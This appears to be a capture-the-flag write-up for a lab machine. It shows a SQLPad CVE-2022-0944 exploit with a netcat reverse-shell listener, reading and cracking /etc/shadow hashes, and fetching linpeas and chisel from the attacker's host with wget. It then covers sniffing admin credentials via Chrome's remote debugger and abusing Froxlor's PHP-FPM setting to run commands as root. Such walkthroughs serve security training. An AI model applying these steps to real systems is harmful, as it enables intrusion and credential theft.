





# User flag
While searching through the page, I found a button that allows us to access a hidden subdirectory called `sqlpad`. 


There, in the 'About' section, we could see that version 6.10.0 is being used, which, after a search, we found to be vulnerable to [CVE-2022-0944](https://github.com/shhrew/CVE-2022-0944). 


To execute the exploit, I faced several issues with the dependency libraries, so I decided to use a virtual environment to run the commands.
```bash
python3 -m venv myenv
source myenv/bin/activate
pip3 install -r requirements.txt
```
Then, I opened my localhost 4444 port and executed the exploit.
```bash
nc -lvnp 4444
python3 main.py http://sqlpad.sightless.htb:3000 <my_ip> 4444
```
After executing the exploit, we gain access as the root user.


As root i couldn't find any flag, so I printed the `/etc/passwd` file and decided to switch user to michael, but I neither find any flag file on his home directory.

Therefore, I decided to list the `/etc/shadow` file to try to decrypt the hashed passwords with John The Ripper. Once we have stored the 2 password in a file on our local machine, we just need to run John.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```

Once both of the passwords have been decrypted, I could login into the machine using ssh as the user `michael`.


Then, the user flag was accessible:


# Root flag
First, I tried running the typical searches with **find** and **getcap**, but they didn’t yield any results. So, as usual, I ran **Linpeas** in the tmp directory.
```bash
# local machine
sudo python3 -m http.server 80

# target machine
cd /tmp
wget http://<local_ip>/linpeas.sh
./linpeas.sh
```

There, I found that port 8080 was being used. Also, this can be verified using netstat.



To evaluate its traffic I decided to do a reverse port forwarding.
```bash
# local machine
sudo python3 -m http.server 80
# target machine
cd /tmp
wget http://<local_ip>/chisel
#local machine
chisel server -p 9999 --reverse
#target machine
./chisel client <local_ip>:9999 R:8080:127.0.01:8080
```
Once I tried to connect I found  that there was `Floxor` running there.



For gaining access I used the following exploit: [Link](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/)
As the exploit says, I forwarded all the traffic from the ports found using netstat.


Next, I accessed to `chrome://inspect/#devices` and introduced `localhost:<port>` for all the ports.



Once the target appeared, I just inspected it using the Network options to obtain the login page credentials `admin:ForlorfroxAdmin`.



After logging into the dashboard, you need to go to the “PHP” section and then to PHP-FPM versions. There modify the command for:
```bash
cp /root/root.txt /tmp/root.txt
```


For triggering the command you need to access to `http://127.0.0.1:8080/admin_settings.php?start=phpfpm` an dis-enable and enable the shown option.


Once you have done this, the root.txt should be available on the /tmp directory, but you won't have enough permissions for doing a cat. Then, you will need to execute the same process than before but using this command:
```bash
chmod 777 /tmp/root.txt
```


Finally, you will be able to access the contents of `root.txt`.


